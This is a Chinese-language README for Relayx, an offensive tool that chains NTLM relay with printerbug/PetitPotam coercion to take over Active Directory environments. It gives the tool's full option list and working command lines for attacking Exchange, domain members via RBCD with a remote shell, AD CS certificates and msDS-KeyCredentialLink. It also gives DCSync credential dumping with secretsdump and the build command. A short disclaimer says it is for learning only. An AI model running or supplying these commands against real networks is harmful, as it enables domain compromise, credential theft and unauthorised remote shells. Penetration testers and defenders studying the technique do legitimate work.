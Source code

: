# Relayx
## 声明
**一切开发旨在学习，请勿用于非法用途**

## Usage
将几个比较好用的relay集成到了一起，提高测试效率。
```
DCpwn with ntlmrelay

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address> or LOCAL (if you want to parse local files)

options:
  -h, --help            show this help message and exit
  -r CALLBACK_IP, --callback-ip CALLBACK_IP
                        Attacker callback IP
  --timeout TIMEOUT     timeout in seconds
  --debug               Enable debug output
  -ts                   Adds timestamp to every logging output
  --no-trigger          Start exploit server without trigger.
  --no-attack           Start trigger for test.
  --smb-port SMB_PORT   Port to listen on smb server
  -rpc-smb-port [destination port]
                        Destination port to connect to SMB Server

authentication:
  -hashes LMHASH:NTHASH
                        Hash for account auth (instead of password)

connection:
  -dc-ip ip address     IP address of the Domain Controller
  -adcs-ip ip address   IP Address of the ADCS, if unspecified, dc ip will be used
  --ldap                Use ldap.
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name and you cannot resolve it

attack:
  -m {rbcd,pki,sdcd}, --method {rbcd,pki,sdcd}
                        Set up attack method, rbcd or pki or sdcd (shadow credential)
  -t {printer,efs}, --trigger {printer,efs}
                        Set up trigger method, printer or petitpotam
  --impersonate IMPERSONATE
                        target username that will be impersonated (thru S4U2Self) for quering the ST. Keep in mind this will only work if the identity provided in this scripts is allowed for delegation to the SPN specified
  --add-computer [COMPUTERNAME]
                        Attempt to add a new computer account
  -pipe {efsr,lsarpc,samr,netlogon,lsass}
                        Named pipe to use (default: lsarpc)
  --template TEMPLATE   AD CS template. If you are attacking Domain Controller or other windows server machine, default value should be suitable.
  -pp PFX_PASS, --pfx-pass PFX_PASS
                        PFX password.
  -ssl                  This is useful when AD CS use ssl.

execute:
  -shell                Launch semi-interactive shell, Default is False
  -share SHARE          share where the output will be grabbed from (default ADMIN$)
  -shell-type {cmd,powershell}
                        choose a command processor for the semi-interactive shell
  -codec CODEC          Sets encoding used (codec) from the target's output (default "GBK").
  -service-name service_name
                        The name of theservice used to trigger the payload
  -mode {SHARE,SERVER}  mode to use (default SHARE, SERVER needs root!)
```
## 认证触发
工具中包含了两种触发机器回连的操作。
printerbug 和 PetitPotam。 触发可通过指定参数来实现，默认使用printerbug
```
-t printer  # 使用 打印机bug  触发
-t efs      # 使用 MS-EFSRPC 触发
```

如果不需要工具主动去触发回连，可以添加参数`--no-trigger`,这样就可以通过其他方式来进行触发,同样的，可以添加参数`--no-attack`来指定只触发回连。

## 攻击场景
目前支持三种攻击方式
```
-m rbcd     # 普通域成员RBCD，高权限，添加Dcsync权限
-m pki      # 向AD CS申请证书
-m sdcd     # 通过ldap添加 msDS-KeyCredentialLink 属性进行攻击，需要 Server >= 2016
```
> 这里通过SMB relay到LDAP需要存在CVE-2019-1040漏洞

### 一、攻击Exchange服务器
默认Exchange的服务权限较高，所以工具会利用Exchange的权限将当前用户增加Dcsync权限。
```
python relayx.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.201 -r 10.211.55.2 -dc-ip 10.211.55.200
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728171035.png)

>目标的方式可以使用impacket的方式来写，@后跟目标即可，-r 是回连IP，也就是我们的攻击IP，-dc-ip 指定要去认证或者请求的DC ip, 后面一样，就不再重复。

攻击之后，当前用户可进行dcsync：
```
secretsdump.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.200 -just-dc-user cgdomain\\exchange$
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728171339.png)

使用aclpwn可进行还原(这里需要exchange服务器的机器账号hash):
```
aclpwn -r aclpwn-xxxxx-xxxxx.restore
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728171452.png)


### 二、攻击域成员机器
攻击普通服务器会自动使用RBCD（基于资源的约束委派）来攻击，所以这里需要域级别>= Server2012R2。
```
python relayx.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.202 -r 10.211.55.2 -dc-ip 10.211.55.203 -shell
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728172026.png)

攻击成功后，会自动获取一个交互式shell，并会生成一个ccache文件供以后使用，这里默认会模拟`administrator`的身份，如果不存在administrator，可通过`--impersonate` 来指定目标用户,如果未添加`-shell`参数，只保存请求到的票据。

>这里默认会添加一个新的计算机账号，可通过--add-computer 来指定机器名，不指定则为随机名。

### 三、攻击AD CS
这里要求目标环境安装了`AD CS`。攻击AD CS 可以通过`-m pki` 来指定。
```
python relayx.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.202 -r 10.211.55.2 -dc-ip 10.211.55.200 -m pki
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728173221.png)

这里会向CS申请一个机器账号的证书，之后通过Rubues进行后续攻击即可。

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728173445.png)


### 四、利用msDS-KeyCredentialLink
类似于RBCD，优点是不需要添加计算机账号，缺点是需要Server版本高于2016, 可通过`-m sdcd` 来指定。
```
python relayx.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.202 -r 10.211.55.2 -dc-ip 10.211.55.200 -m sdcd
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210803105506.png)

>本地没2016环境。所以会报个错。

后续可通过Rubues进行后续攻击。

## 编译
可以使用以下命令进行编译
```
pyinstaller -F -c relayx.py --collect-all impacket --add-data 'comm/ntlmrelayx/attacks/*:comm/ntlmrelayx/attacks'
```
